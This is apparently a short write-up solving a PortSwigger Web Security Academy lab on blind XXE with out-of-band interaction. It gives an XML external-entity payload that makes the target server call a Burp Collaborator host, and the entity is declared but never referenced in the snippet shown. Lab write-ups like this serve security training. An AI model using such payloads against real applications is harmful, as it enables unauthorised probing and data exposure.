


# Lab: Blind XXE with out-of-band interaction

**Link**: https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction

**Solution**:
Two solutions

1- By using your own server 

just put your link and observe if there any requests have received

2- By using Burp Collaborator

<p align="center" width="100%">
  
</p>

Insert the URL into the payload
```xml
<!DOCTYPE foo [
<!ENTITY test SYSTEM "http://jpcqdakp0a8wgyp718gtwgv07rdi1bp0.oastify.com" >
]>
```

<p align="center" width="100%">
  
</p>

It gives you error and didn’t show any results but if you observe your server for any requests have received

<p align="center" width="100%">
  
</p>


<p align="center" width="100%">
  
</p>

